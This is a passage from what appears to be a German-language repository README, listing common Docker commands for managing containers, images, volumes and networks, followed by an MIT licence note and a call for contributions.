docker start/stop [CONTAINER_ID/NAME]  # Container starten/stoppen
docker restart [CONTAINER_ID/NAME]     # Container neustarten
docker rm [CONTAINER_ID/NAME]          # Container entfernen
docker rm $(docker ps -aq)             # Alle Container entfernen

# Container-Interaktion
docker exec -it [CONTAINER_ID/NAME] /bin/bash  # Terminal in Container öffnen
docker attach [CONTAINER_ID/NAME]              # An Container-Prozess anhängen
docker logs [CONTAINER_ID/NAME]                # Container-Logs anzeigen
docker cp [SRC] [CONTAINER]:[DEST]             # Dateien kopieren

# Image-Management
docker images                          # Alle lokalen Images anzeigen
docker build -t [TAG] .               # Image aus Dockerfile bauen
docker pull [IMAGE]                   # Image von Registry herunterladen
docker push [IMAGE]                   # Image zu Registry hochladen
docker rmi [IMAGE_ID]                 # Image entfernen

# System-Verwaltung
docker system prune                   # Ungenutzte Ressourcen bereinigen
docker volume ls                      # Volumes anzeigen
docker network ls                     # Networks anzeigen
```

## Dieses Repo


### Lizenz

Dieses Projekt steht unter der [MIT-Lizenz](LICENSE)

### Feedback und Beiträge

Pull Requests, Issues und jede andere Art von Feedback sind immer willkommen!
